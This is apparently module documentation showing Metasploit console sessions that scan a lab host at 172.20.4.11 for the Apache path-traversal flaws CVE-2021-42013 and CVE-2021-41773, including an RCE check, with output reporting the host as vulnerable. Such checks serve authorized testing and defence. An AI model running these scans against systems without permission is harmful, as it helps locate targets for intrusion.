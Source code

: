 #### CVE-2021-42013 (by default)

```
msf > use auxiliary/scanner/http/apache_normalize_path
msf auxiliary(scanner/http/apache_normalize_path) > setg rhosts 172.20.4.11
rhosts => 172.20.4.11
msf auxiliary(scanner/http/apache_normalize_path) > setg rport 8080
rport => 8080
msf auxiliary(scanner/http/apache_normalize_path) > setg ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
msf auxiliary(scanner/http/apache_normalize_path) > setg verbose true
verbose => true
msf auxiliary(scanner/http/apache_normalize_path) > run

[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-42013.
[*] Obtained HTTP response code 403.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/apache_normalize_path) > 
```

#### CVE-2021-41773

```
msf auxiliary(scanner/http/apache_normalize_path) > use auxiliary/scanner/http/apache_normalize_path
msf auxiliary(scanner/http/apache_normalize_path) > setg rhosts 172.20.4.11
rhosts => 172.20.4.11
msf auxiliary(scanner/http/apache_normalize_path) > setg rport 8080
rport => 8080
msf auxiliary(scanner/http/apache_normalize_path) > setg ssl false
ssl => false
msf auxiliary(scanner/http/apache_normalize_path) > setg verbose true
verbose => true
msf auxiliary(scanner/http/apache_normalize_path) > setg cve CVE-2021-41773
cve => CVE-2021-41773
msf auxiliary(scanner/http/apache_normalize_path) > run

[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-41773.
[*] Obtained HTTP response code 403.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/apache_normalize_path) >
```

#### Check for RCE

```
msf auxiliary(scanner/http/apache_normalize_path) > use auxiliary/scanner/http/apache_normalize_path
msf auxiliary(scanner/http/apache_normalize_path) > setg rhosts 172.20.4.11
rhosts => 172.20.4.11
msf auxiliary(scanner/http/apache_normalize_path) > setg rport 8080
rport => 8080
msf auxiliary(scanner/http/apache_normalize_path) > setg ssl false
ssl => false
msf auxiliary(scanner/http/apache_normalize_path) > setg verbose true
verbose => true
msf auxiliary(scanner/http/apache_normalize_path) > setg action CHECK_RCE
action => CHECK_RCE
msf auxiliary(scanner/http/apache_normalize_path) > run

[+] http://172.20.4.11:8080 - The target is vulnerable to CVE-2021-42013 (mod_cgi is enabled).
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```